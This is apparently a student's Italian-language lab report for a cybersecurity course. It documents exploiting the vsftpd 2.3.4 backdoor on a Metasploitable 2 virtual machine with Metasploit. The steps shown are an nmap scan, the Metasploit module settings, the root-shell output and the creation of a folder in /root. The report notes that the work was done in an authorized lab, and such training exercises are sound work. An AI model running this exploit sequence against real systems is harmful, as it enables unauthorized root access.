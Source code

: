 # 🚀 Hacking con Metasploit - Exploit vsftpd 2.3.4

## 📋 Descrizione dell'Esercizio
L'obiettivo di questa attività era condurre un attacco utilizzando **Metasploit Framework** contro una macchina virtuale vulnerabile **Metasploitable 2**. Abbiamo sfruttato una backdoor presente nel servizio **vsftpd 2.3.4** sulla porta FTP (21). 

🎯 **Risultato finale**: Creazione di una cartella chiamata **test_metasploit** all'interno della directory **/root** della macchina target, dimostrando il successo dell'attacco.

---

## 🛠️ Configurazione dell'Ambiente

### 🖥️ Macchina Attaccante
- **Sistema Operativo**: Kali Linux 2023.1
- **Strumento**: Metasploit Framework

### 🎯 Macchina Target
- **Sistema Operativo**: Metasploitable 2
- **Indirizzo IP**: `192.168.1.149/24`
- **Servizio Vulnerabile**: vsftpd 2.3.4
- **Porta FTP**: 21

---

## 🔎 Passaggi Eseguiti

### 1️⃣ Scansione del Servizio FTP
Ho utilizzato **Nmap** per verificare la presenza del servizio FTP sulla porta 21 della macchina target:
```bash
nmap -p 21 192.168.1.149
```
✅ **Output**:
```
PORT   STATE SERVICE
21/tcp open  ftp
```
La scansione conferma che il servizio FTP sulla porta 21 è attivo.

---

### 2️⃣ Avvio di Metasploit e Caricamento dell'Exploit
Ho avviato Metasploit e cercato l'exploit per **vsftpd 2.3.4**:
```bash
msfconsole
search vsftpd
```
Ho selezionato e configurato l'exploit:
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.1.149
set RPORT 21
```

---

### 3️⃣ Esecuzione dell'Exploit
Ho lanciato l'exploit con il comando:
```bash
exploit
```

🚀 **Output**:
```
[*] 192.168.1.149:21 - The port used by the backdoor bind listener is already open
[+] 192.168.1.149:21 - UID: uid=0(root) gid=0(root)
[*] Command shell session 1 opened...
```
🎉 L'exploit ha avuto successo e ho ottenuto una **shell con privilegi root**.

---

### 4️⃣ Navigazione e Creazione della Cartella
Dopo aver ottenuto accesso alla shell, ho verificato la struttura delle directory e ho creato la cartella **test_metasploit**:
```bash
cd /root
mkdir test_metasploit
ls
```
✅ **Output**:
```
hacking_test  test_metasploit
```
📁 La cartella **test_metasploit** è stata creata con successo.

---

## 🖼️ Screenshot dei Risultati
1. **Avvio dell'Exploit**: Ottenimento della shell root.
2. **Creazione della Cartella**: Verifica della presenza di `test_metasploit`.

(Si consiglia di inserire qui gli screenshot catturati durante l'esecuzione dell'attività.)

---

## 🏆 Risultati Finali
- ✅ **Accesso Root Ottenuto**: Ho sfruttato con successo la vulnerabilità del servizio `vsftpd 2.3.4`.
- 📂 **Creazione della Cartella**: La cartella `test_metasploit` è stata creata nella directory `/root`.

---

## 🔐 Conclusioni
L'esercizio ha dimostrato come una versione obsoleta e vulnerabile di un servizio possa essere sfruttata per ottenere accesso root a un sistema remoto. Questa attività evidenzia l'importanza di:
1. 🛡️ **Patch di Sicurezza**: Mantenere i servizi aggiornati.
2. 🔍 **Monitoraggio**: Controllare costantemente i servizi in ascolto su una macchina.
3. 🧪 **Ambienti Isolati**: Eseguire test di sicurezza in ambienti controllati come Metasploitable.

---

## 📚 Comandi Utilizzati
1. **Scansione Nmap**:
   ```bash
   nmap -p 21 192.168.1.149
   ```
2. **Configurazione Metasploit**:
   ```bash
   msfconsole
   use exploit/unix/ftp/vsftpd_234_backdoor
   set RHOST 192.168.1.149
   set RPORT 21
   exploit
   ```
3. **Navigazione e Creazione Cartella**:
   ```bash
   cd /root
   mkdir test_metasploit
   ls
   ```

---

## ✍️ Autore
- **Nome**: *(Il tuo Nome)*
- **Corso**: Cybersecurity - Primo Mese
- **Data**: *(Data di completamento)*
- **Strumento Utilizzato**: Metasploit, Nmap

---

## ⚠️ Note
Questa attività è stata eseguita in un **ambiente controllato e autorizzato**. L'uso non autorizzato di queste tecniche su sistemi reali è illegale e contrario all'etica professionale.

---